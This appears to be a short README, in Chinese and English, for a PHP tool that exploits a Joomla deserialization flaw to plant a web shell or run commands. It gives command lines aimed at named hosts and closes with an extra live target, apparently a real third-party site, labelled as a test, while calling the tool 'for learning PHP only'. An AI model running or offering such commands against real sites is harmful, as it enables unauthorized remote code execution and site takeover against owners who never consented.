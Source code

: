 
#joomla 反序列化漏洞 getshell&amp;&amp;命令执行
--------------- Joomla 反序列化漏洞利用工具---------------

    1.记得命令后头加分号，命令用单引号括起来。       
    2.仅供学习php代码使用         

Usage:

`
php joomla.php http://xatusec.org getshell
`

`
php joomla.php http://xatusec.org command 'phpinfo();'
`

-------------------Powered by Whirlwind-------------------

再送一个测试 php joomla.php http://enoki.jp/ getshell 

